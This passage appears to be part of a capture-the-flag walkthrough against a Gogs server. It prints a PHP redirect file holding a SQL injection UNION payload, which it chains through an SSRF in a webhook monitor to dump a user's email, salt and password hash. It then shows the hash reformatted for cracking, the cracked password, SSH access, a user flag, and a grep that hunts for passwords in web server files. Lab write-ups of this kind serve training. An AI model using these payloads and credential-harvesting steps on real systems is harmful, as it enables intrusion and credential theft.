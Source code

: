 ```php
header("Location: http://127.0.0.1:3000/api/v1/users/search?q=')%09union%09all%09select%091,2,(select%09email%09from%09user)||':'||(select%09salt%09from%09user)||':'||(select%09passwd%09from%09user),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--%09-");
die();
?>
```
Starting the php server and nc listener again and sending the request should give back the hash.
```
Payload URL: http://10.10.14.47:9001
Monitored URL: http://10.10.14.47:9002
Interval: */1 * * * *
Under what circumstances should the webhook be sent? Always
```
Which gives
```
{"webhookUrl":"http:\/\/10.10.14.47:9001","monitoredUrl":"http:\/\/10.10.14.47:9002","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"},{\"username\":\"admin@gogs.local:sO3XIbeW14:66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/15\"}],\"ok\":true}","message":"HTTP\/1.0 302 Found","headers":{"Host":"10.10.14.47:9002","Date":"Thu, 19 Jan 2023 14:45:09 GMT","Connection":"close","X-Powered-By":"PHP\/8.1.2-1ubuntu2.9","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')%09union%09all%09select%091,2,(select%09email%09from%09user)||':'||(select%09salt%09from%09user)||':'||(select%09passwd%09from%09user),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--%09-","Content-type":"text\/html; charset=UTF-8","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"293"}}
```
sending it through jq:
```json
cat reply.json | jq .body -r | jq .data
[
  {
    "username": "susanne",
    "avatar": "//1.gravatar.com/avatar/c11d48f16f254e918744183ef7b89fce"
  },
  {
    "username": "admin@gogs.local:sO3XIbeW14:66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37",
    "avatar": "//1.gravatar.com/avatar/15"
  }
]

```
base64 encode both parts and crack the hash.
```
sha256:10000:c08zWEliZVcxNA==:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=
```
which works! `february15`

Check ssh for both admin and susanne, It works for susanne.
```
Userflag: 6c8c013a7d02b89fa558c8f2e409a51c
```
# Priv Esc
Check the web server for passwords.
```
grep -R -i 'password='
```
Shows a result in the .env file.
```
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=laravel
```